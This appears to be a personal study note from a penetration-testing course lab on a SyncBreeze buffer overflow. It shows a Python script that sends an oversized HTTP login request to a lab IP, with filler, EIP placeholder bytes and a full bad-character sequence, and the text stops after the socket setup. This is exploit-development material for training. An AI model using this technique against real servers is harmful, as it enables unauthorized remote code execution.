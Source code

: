 ### Verify the crash points to our shellcode placeholder location (DDDD's)
![ee07a332d8a2982c2b532470f427c380.png](:/6d089660bcbc460e9cd4099e8792fef1)

### Start off with a script that holds all hex characters except 0x00, which has already been taken out because it is a known bad character. Here is the script:
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/bufferOverflow/win/syncbreeze$ cat 7_check_bad_chars_original.py 
#!/usr/bin/python
import socket
import sys

badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )

try:
    print "\nSending evil buffer..."

    filler = "A" * 780
    eip = "B" * 4
    offset = "C" * 4
    
    inputBuffer = filler + eip + offset + badchars
    
    content = "username=" + inputBuffer + "&password=A"
    
    buffer = "POST /login HTTP/1.1\r\n"
    buffer += "Host: 192.168.214.10\r\n"
    buffer += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0\r\n"
    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    buffer += "Accept-Encoding: gzip, deflate\r\n"
    buffer += "Referer: http://192.168.214.10/login\r\n"
    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += "Content-Length: "+str(len(content))+"\r\n"
    buffer += "DNT: 1\r\n"
    buffer += "Connection: keep-alive\r\n"
    buffer += "Upgrade-Insecure-Requests: 1\r\n"
    buffer += "\r\n"
    
    buffer += content
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

```